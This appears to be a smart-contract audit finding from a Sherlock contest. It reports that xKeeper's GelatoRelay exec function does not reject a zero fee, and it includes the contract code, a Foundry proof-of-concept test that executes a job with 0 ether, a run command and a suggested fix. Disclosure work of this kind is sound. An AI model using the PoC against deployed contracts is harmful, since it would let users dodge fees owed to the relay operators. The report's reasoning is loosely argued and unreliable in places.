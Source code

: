 Hot Juniper Fly

medium

# The Fee can be bypassed for Gelato Relay

## Summary
The Gelato Relay expect the fee should be passed as a parameter to `automate.exec` call , However it does not check that the Fee is valid amount.

## Vulnerability Detail
The users will be charged to pay fee , if user tries to used Gelato relay to automate there tasks. the Gelato support the Fee implementation with  either `GelatoRelayContext` or `GelatoRelayFeeCollector` to process fee  flow.  The xKeeper uses `GelatoReplayContext` which requires the fee, feeRecepient and amount would be provided with `calldata` to a function call. However the `GeatoRelay:exec` function does not check that the Fee amount `0`.
```solidity

 function exec(IAutomationVault _automationVault, IAutomationVault.ExecData[] calldata _execData) external {
    // Get the fee details
    (uint256 _fee, address _feeToken) = AUTOMATE.getFeeDetails();

    // Create fee data
    IAutomationVault.FeeData[] memory _feeData = new IAutomationVault.FeeData[](1);
    _feeData[0] = IAutomationVault.FeeData(FEE_COLLECTOR, _feeToken, _fee);
    // Execute the automation vault
    _automationVault.exec(msg.sender, _execData, _feeData);

    // Emit the event
    emit AutomationVaultExecuted(_automationVault, msg.sender, _execData, _feeData);
  }
```


## Impact
The User Will be able to submit transaction to Gelato Relay without paying any Fee.

### POC

```solidity
function test_noFeeExecuteAndGetPaymentFromGelato() public {
    // Get the fee collector balance
    address _feeCollector = gelato.feeCollector();
    uint256 _balance = _feeCollector.balance;

    IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](1);
    _execData[0] = IAutomationVault.ExecData(address(basicJob), abi.encodeWithSelector(basicJob.work.selector));

    // Create exec data for Automate
    bytes memory _execDataAutomate = abi.encodeWithSelector(gelatoRelay.exec.selector, automationVault, _execData);

    // Create module data for Automate
    LibDataTypes.ModuleData memory _moduleData = _createModuleData();

    // Execute in Automate and expect Gelato to execute the job
    automate.exec(owner, address(gelatoRelay), _execDataAutomate, _moduleData, 0 ether, _NATIVE_TOKEN, true);

    assertEq(_feeCollector.balance, _balance);
        vm.stopPrank();

  }
```
Add this test case inside `integration/GelatoRelay.t.sol` and run with command : `forge test --mt test_noFeeExecuteAndGetPaymentFromGelato  -vvv` 
## Code Snippet
[https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol#L28](https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol#L28)
## Tool used

Manual Review

## Recommendation
One Possiable fix will be to check that Fee is not zero or add some minimum Fee check.